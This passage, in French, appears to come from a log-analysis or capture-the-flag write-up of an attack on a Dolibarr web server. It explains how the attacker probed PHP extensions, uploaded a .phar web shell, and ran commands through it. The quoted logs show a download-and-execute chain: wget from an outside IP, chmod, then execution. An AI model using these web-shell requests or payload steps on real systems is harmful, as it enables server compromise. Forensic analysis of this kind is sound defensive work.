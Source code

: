 
Les extensions testées par l'attaquant sont :

1. `.php`
2. `.phtml`
3. `.php3`
4. `.php4`
5. `.php5`
6. `.php6`
7. `.php7`

L'attaquant essaie ces extensions pour trouver un fichier vulnérable capable d'exécuter du code via une requête POST.

### 3.

Examinons attentivement les logs après que l'attaquant ait testé plusieurs extensions :

1. **Examen des extensions utilisées** : Après avoir testé plusieurs extensions comme `.php`, `.phtml`, `.php3`, `.php4`, `.php5`, `.php6`, `.php7`, et avoir reçu principalement des erreurs `404` (fichier non trouvé), il y a une exception notable : l'extension **`.phar`**.

2. **Requête spécifique avec `.phar`** :
   - L'attaquant effectue une requête vers le fichier `64nxlskk.phar` :
     ```
     192.168.1.10 - - [23/May/2023:09:54:18 +0100] "POST /dolibarr/htdocs/user/64nxlskk.phar?id=2 HTTP/1.1" 200 7736 "http://www.pms.com/dolibarr/htdocs/" "python-requests/2.25.1"
     ```
   - Le code réponse est **200**, ce qui indique que cette requête a réussi. Cela signifie que le serveur a répondu positivement à cette requête, contrairement aux autres tentatives avec les extensions précédentes qui renvoyaient des erreurs `404`.

3. **Suivi de l'attaque** : Après l'utilisation réussie de l'extension `.phar`, on voit plusieurs requêtes GET avec le paramètre `cmd=id` :
   ```
   192.168.1.10 - - [23/May/2023:09:54:18 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=id HTTP/1.1" 200 257 "-" "python-requests/2.25.1"
   ```
   - Cette requête renvoie également un code réponse **200**, suggérant que l'attaquant a réussi à exploiter une vulnérabilité dans le fichier `.phar`.

4. **Confirmation** : L'extension `.phar` est la seule qui a fonctionné avec succès et a été utilisée par l'attaquant pour exécuter des commandes sur le serveur via le paramètre `cmd=id`.

On en déduit donc que l'extension que l'attaquant utilise finalement pour poursuivre l'attaque est **`.phar`**, après avoir testé plusieurs autres extensions sans succès.

### 4.

Voici les lignes pertinentes :

```
192.168.1.10 - - [23/May/2023:09:55:20 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=wget%20http://240.123.207.20/fiche_de_poste.odt HTTP/1.1" 200 486 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.1.10 - - [23/May/2023:09:55:38 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=mv%20fiche_de_poste.odt%20fiche_de_poste HTTP/1.1" 200 203 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.1.10 - - [23/May/2023:09:55:52 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=chmod%20755%20fiche_de_poste HTTP/1.1" 200 203 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
192.168.1.10 - - [23/May/2023:09:58:22 +0100] "GET /dolibarr/documents/users/2/64nxlskk.phar?cmd=./fiche_de_poste HTTP/1.1" 200 245 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0"
```
